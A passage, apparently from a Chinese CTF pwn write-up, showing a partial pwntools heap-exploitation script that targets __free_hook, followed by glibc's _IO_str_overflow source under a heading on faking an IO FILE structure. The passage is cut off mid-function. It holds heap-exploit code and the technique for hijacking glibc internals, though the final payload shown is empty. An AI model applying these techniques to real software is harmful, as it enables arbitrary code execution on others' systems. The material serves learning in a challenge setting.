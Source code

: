 ```python
change(3)
add(0x420, cyclic(0x160)) #2-9 calloced

change(1)
payload = cyclic(0x40) + p64(heap_base+0x12ce0) + p64(free_hook-0x10)+cyclic(0x110)
edit(8, payload)
change(3)

# debug()

add(0xa0, cyclic(0x30))   #3->4
#gift!
p.recvuntil("01dwang's Gift:\n")
#fake IOFILE
payload = ""
p.send(payload)

debug()


p.interactive()
```

## 伪造IOFILE

### 改__free_hook做法

```c
int _IO_str_overflow (FILE *fp, int c)
{
  int flush_only = c == EOF;
  size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
    return EOF;
      else
        {
          char *new_buf;
          char *old_buf = fp->_IO_buf_base;
          size_t old_blen = _IO_blen (fp);
          size_t new_size = 2 * old_blen + 100;
          if (new_size < old_blen)
            return EOF;
          new_buf = malloc (new_size); // 1
          if (new_buf == NULL)
            {
              /*      __ferror(fp) = 1; */
              return EOF;
            }
          if (old_buf)
            {
              memcpy (new_buf, old_buf, old_blen); // 2
              free (old_buf); // 3
```